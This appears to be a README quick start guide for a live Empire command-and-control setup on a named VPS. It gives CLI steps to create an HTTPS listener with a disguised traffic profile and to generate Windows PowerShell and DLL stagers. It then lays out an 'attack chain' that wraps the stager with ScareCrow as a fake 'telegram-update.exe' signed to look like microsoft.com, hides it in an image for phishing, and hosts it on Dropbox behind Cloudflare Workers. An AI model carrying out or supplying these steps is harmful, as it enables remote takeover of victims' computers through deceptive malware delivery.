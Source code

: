# Empire C2 - QUICK START GUIDE

## CURRENT STATUS (WORKING!)

- **Empire Server**: Running locally in Docker
- **Starkiller UI**: https/161-35-155-3.sslip.io
- **Empire API**: http/127.0.0.1:1337 (forwarded to VPS)
- **SSH Tunnels**: Active and working

## ACCESS POINTS

### Starkiller Web UI
```
URL: https/161-35-155-3.sslip.io
```

### Empire API (Local)
```
URL: http/127.0.0.1:1337/api/v2/
```

### Empire API (Via VPS)
```
URL: https/161-35-155-3.sslip.io/api/
Auth: Basic Auth (configured in nginx)
```

## EMPIRE COMMANDS

### Access Empire CLI
```bash
# Enter Docker container
docker exec -it empire bash

# Inside container, start Empire CLI
cd /opt/Empire
python3 empire.py client
```

### Check Empire Status
```bash
# Check if Empire is running
docker ps | grep empire

# Check Empire logs
docker logs empire

# Restart Empire
docker restart empire
```

## CREATE LISTENERS

```python
# Access Empire client
docker exec -it empire python3 /opt/Empire/empire.py client

# Once in Empire CLI:
uselistener http
set Name main_listener
set Host https/161-35-155-3.sslip.io
set Port 443
set DefaultProfile /admin/get.php,/news.php,/login/process.php|Mozilla/5.0
execute

# Verify
listeners
```

## GENERATE STAGERS

```python
# Windows PowerShell Stager
usestager windows/launcher_bat
set Listener main_listener
set OutFile /tmp/launcher.bat
execute

# Windows DLL (for ScareCrow)
usestager windows/dll
set Listener main_listener
set OutFile /tmp/empire.dll
execute

# Copy from container to host
```

```bash
# From host (outside container)
docker cp empiretmp/launcher.bat ./stagers/
docker cp empiretmp/empire.dll ./stagers/
```

## DEFAULT CREDENTIALS

Check inside Empire container:
```bash
docker exec -it empire cat /root/.local/share/powershell-empire/config.yaml | grep -A 5 defaults
```

## ️ TROUBLESHOOTING

### Starkiller Won't Load
```bash
# Check nginx on VPS
ssh root@161.35.155.3 "systemctl status nginx"

# Check SSH tunnels are running
ps aux | grep "ssh.*1337"
```

### Empire API Not Responding
```bash
# Check Empire is running
docker ps | grep empire

# Check logs
docker logs empire --tail 50

# Restart if needed
docker restart empire
```

### Can't Connect to Listeners
```bash
# Verify listener is active in Empire
docker exec -it empire python3 /opt/Empire/empire.py client
# Then: listeners

# Check firewall on VPS
ssh root@161.35.155.3 "ufw status"
```

## QUICK ACTIONS

### Create Complete Attack Chain
```bash
# 1. Create listener (see above)
# 2. Generate DLL stager
# 3. Process with ScareCrow
cd /home/kali/ScareCrow
./ScareCrow -I ./stagers/empire.dll -Loader binary -domain microsoft.com -O payloads/telegram-update.exe

# 4. Embed in image
cd /home/kali/Main\ C2\ Framework/advanced-steganography-phishing
python3 large-stego-system.py embed --payload payloads/telegram-update.exe --output output/

# 5. Upload to Dropbox
# 6. Update Cloudflare Worker URLs
# 7. Test!
```

## USEFUL COMMANDS

```bash
# Check what's running on ports
netstat -tulpn | grep -E '1337|5000'

# Check Docker containers
docker ps -a

# View Empire logs live
docker logs -f empire

# SSH to VPS
ssh root@161.35.155.3

# Check SSH tunnels
ps aux | grep ssh | grep 1337
```

## NEXT STEPS

1. Empire is running
2. Starkiller is accessible
3. ⏳ Create HTTP/HTTPS listeners
4. ⏳ Generate stagers
5. ⏳ Integrate with ScareCrow
6. ⏳ Test agent check-in

---

**Everything is ready to go - just create listeners and stagers now!**
